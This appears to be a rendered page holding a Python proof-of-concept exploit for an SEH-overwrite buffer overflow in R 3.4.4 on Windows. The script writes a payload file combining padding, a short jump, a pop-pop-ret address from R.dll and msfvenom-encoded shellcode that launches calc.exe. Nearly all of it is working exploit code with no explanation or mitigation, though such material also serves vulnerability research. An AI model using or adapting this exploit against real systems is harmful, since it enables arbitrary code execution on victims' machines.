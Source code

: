 Poc Code

```python 
#!/usr/bin/python
import struct

outfile = 'payload.txt'

junk = "A" * 1012

nseh = struct.pack("<L", 0xeb069090) # jmp short 6

seh = struct.pack("<L", 0x6cbff306) # 0x6cbff306 : pop esi # pop edi # ret  |  {PAGE_EXECUTE_READ} [R.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v3.4.4 (C:\Program Files\R\R-3.4.4\bin\i386\R.dll)


# msfvenom -a x86 -p windows/exec -e x86/shikata_ga_nai -b '\x00\x09\x0a\x0d' cmd=calc.exe exitfunc=thread -f python
nops = "\x90" * 20

shellcode =  ""
shellcode += "\xdb\xce\xbf\x90\x28\x2f\x09\xd9\x74\x24\xf4\x5d\x29"
shellcode += "\xc9\xb1\x31\x31\x7d\x18\x83\xc5\x04\x03\x7d\x84\xca"
shellcode += "\xda\xf5\x4c\x88\x25\x06\x8c\xed\xac\xe3\xbd\x2d\xca"
shellcode += "\x60\xed\x9d\x98\x25\x01\x55\xcc\xdd\x92\x1b\xd9\xd2"
shellcode += "\x13\x91\x3f\xdc\xa4\x8a\x7c\x7f\x26\xd1\x50\x5f\x17"
shellcode += "\x1a\xa5\x9e\x50\x47\x44\xf2\x09\x03\xfb\xe3\x3e\x59"
shellcode += "\xc0\x88\x0c\x4f\x40\x6c\xc4\x6e\x61\x23\x5f\x29\xa1"
shellcode += "\xc5\x8c\x41\xe8\xdd\xd1\x6c\xa2\x56\x21\x1a\x35\xbf"
shellcode += "\x78\xe3\x9a\xfe\xb5\x16\xe2\xc7\x71\xc9\x91\x31\x82"
shellcode += "\x74\xa2\x85\xf9\xa2\x27\x1e\x59\x20\x9f\xfa\x58\xe5"
shellcode += "\x46\x88\x56\x42\x0c\xd6\x7a\x55\xc1\x6c\x86\xde\xe4"
shellcode += "\xa2\x0f\xa4\xc2\x66\x54\x7e\x6a\x3e\x30\xd1\x93\x20"
shellcode += "\x9b\x8e\x31\x2a\x31\xda\x4b\x71\x5f\x1d\xd9\x0f\x2d"
shellcode += "\x1d\xe1\x0f\x01\x76\xd0\x84\xce\x01\xed\x4e\xab\xee"
shellcode += "\x0f\x5b\xc1\x86\x89\x0e\x68\xcb\x29\xe5\xae\xf2\xa9"
shellcode += "\x0c\x4e\x01\xb1\x64\x4b\x4d\x75\x94\x21\xde\x10\x9a"
shellcode += "\x96\xdf\x30\xf9\x79\x4c\xd8\xd0\x1c\xf4\x7b\x2d"

padding = "D" * (8000-1012-4-4-len(shellcode))


payload = junk + nseh + seh + nops + shellcode + padding

with open(outfile, 'w') as file:
  file.write(payload)
print "txt payload File Created\n"
```
